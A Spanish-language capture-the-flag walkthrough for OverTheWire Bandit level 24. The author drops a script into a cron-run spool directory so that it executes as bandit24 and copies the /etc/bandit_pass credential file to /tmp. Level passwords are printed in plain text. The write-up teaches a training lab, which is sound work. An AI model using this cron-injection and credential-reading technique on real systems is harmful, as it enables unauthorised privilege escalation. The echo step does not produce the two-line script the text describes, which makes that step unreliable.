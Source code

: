 # Bandit 24

[Link Bandit 24](https://overthewire.org/wargames/bandit/bandit24.html)

---

### Inyectar un script en /var/spool/bandit24/foo para que cron lo ejecute como bandit24 y copie la contraseña

```A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.```

Conectarse para hacer el reto:  
```ssh bandit23@bandit.labs.overthewire.org -p 2220```

La contraseña es ```0Zf11ioIjMVN551jX3CmStKLYqjk54Ga```

Como este nivel es bastante similar al anterior, no explicaré nuevamente los elementos comunes.

En primer lugar, reviso el directorio que se indica en el enunciado del reto:

```ls -l /etc/cron.d/```

![](images/Bandit24/2025-07-20-23-38-55.png)

Ahora, voy a ver qué muestra el archivo ***cronjob_bandit24***, ya que es el nivel en el que estamos (además, los otros cronjob_bandit nos indican que no tenemos permiso):

```cat /etc/cron.d/cronjob_bandit24```

![](images/Bandit24/2025-07-20-23-39-34.png)

Es el archivo de configuración del cronjob, por así decirlo. Dice cuándo y cómo se ejecuta.

Ahora, voy a mirar el contenido del script ejecutado por el cronjob:

```cat /usr/bin/cronjob_bandit24.sh```

![](images/Bandit24/2025-07-20-23-40-07.png)

Cada minuto (o al reiniciar), cron ejecuta este script como bandit24. Este busca en ***/var/spool/bandit24/foo*** todos los archivos que pertenezcan a bandit23, los ejecuta bajo el usuario bandit24 (con un timeout de 60 s) y luego los borra. Gracias a esto, si coloco allí mi propio script (propiedad de bandit23), que se ejecutará con privilegios de bandit24.

```mkdir -p /var/spool/bandit24/foo```

```cd /var/spool/bandit24/foo```

![](images/Bandit24/2025-07-20-23-41-06.png)

Creo el directorio ***/var/spool/bandit24/foo*** y luego me sitúo dentro de él.

```echo '#!/bin/bash cat /etc/bandit_pass/bandit24 > /tmp/b24-pass-bandit23.txt' > get_pass.sh```

![](images/Bandit24/2025-07-20-23-41-42.png)

Este comando crea un nuevo archivo llamado ***get_pass.sh*** en el directorio actual con dos líneas: la primera (#!/bin/bash) indica que es un script de Bash, y la segunda ***(cat /etc/bandit_pass/bandit24 > /tmp/b24-pass-bandit23.txt)*** lee la contraseña de bandit24 y la guarda en ***/tmp/b24-pass-bandit23.txt***.

```chmod +x get_pass.sh```

![](images/Bandit24/2025-07-20-23-42-13.png)

Ese comando modifica los permisos de ***get_pass.sh*** para hacerlo ejecutable, de modo que el cron, al encontrar el script propiedad de bandit23, pueda lanzarlo como un programa y así volcar la contraseña de bandit24 a ***/tmp***.

```cat /tmp/b24-pass-bandit23.txt```

![](images/Bandit24/2025-07-20-23-43-25.png)

Ese comando muestra en pantalla el contenido de ***/tmp/b24-pass-bandit23.txt***, que es donde mi script volcó la contraseña de bandit24.

---

**Contraseña: ```gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8```**